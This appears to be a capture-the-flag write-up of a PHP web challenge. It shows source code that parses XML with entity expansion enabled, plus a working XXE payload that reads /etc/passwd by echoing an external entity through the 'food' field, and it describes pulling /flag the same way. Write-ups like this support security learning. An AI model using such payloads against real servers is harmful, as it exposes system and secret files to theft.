

# baby WAFfles order - web challenge

The website allows users to order waffles or ice cream. Here's an image of the website:



Let's review the source code. The OrderController.php caught my attention.


```
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

The critical part is this:


```
 else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
```

If the content type of the request is XML, the data is passed to simplexml_load_string without any filtering or input sanitization, which allows us to inject XML entities and read files. Let's try to provide simple XML and see if it works. Then we will inject XML. I'll use Burp Suite Repeater to intercept the request and send XML data.

first payload:
```
<!--?xml version="1.0" ?-->
<userInfo>
 <food>Pls work</food>
 <lastName>Doe</lastName>
</userInfo>
```


As you can see the name in the food was displayed in the response.

> "Your Pls work order has been submitted successfully."

Now let's add a malicious entity to read /etc/passwd:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <food>&ent;</food>
 <lastName>Doe</lastName>
</userInfo>
```

We got /etc/passwd!


Now let's find the flag. Since I don't know its location, I'll check the config files. In the Dockerfile, I found this line:
`COPY flag /flag`

The flag is copied to /flag. Let's try to read it:


As you can see, the server responded with the flag. Congratulations, we successfully completed the Baby Waffles Order web challenge!